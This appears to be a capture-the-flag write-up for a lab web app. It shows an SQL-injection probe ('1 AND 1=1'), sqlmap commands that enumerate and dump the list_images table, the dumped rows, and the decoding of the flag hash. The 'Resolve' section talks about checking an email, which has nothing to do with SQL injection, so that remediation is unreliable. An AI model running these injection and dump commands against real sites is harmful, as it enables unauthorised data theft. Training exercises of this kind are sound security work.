 # 01_Unsecure_img_search

The GET parameter in the image search form is vulnerable  
Where: http://192.168.1.59/?page=searchimg

## Method

Go to http://192.168.1.59/?page=searchimg  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --tables```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --dump -T list_images```  
where `list_images` refers to the table name  

+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+  
| id | url                              | title     | comment                                                                                                               |  
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+  
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |  
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |  
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |  
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |  
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |  
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |  
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+  
  
Decode flag  
`1928e8083cf461a51303633093573c46 -> albatroz -> F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188`  


## Resolve

- Store email in a variable on the backend
- Process email on submit to check that it is correct.

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  
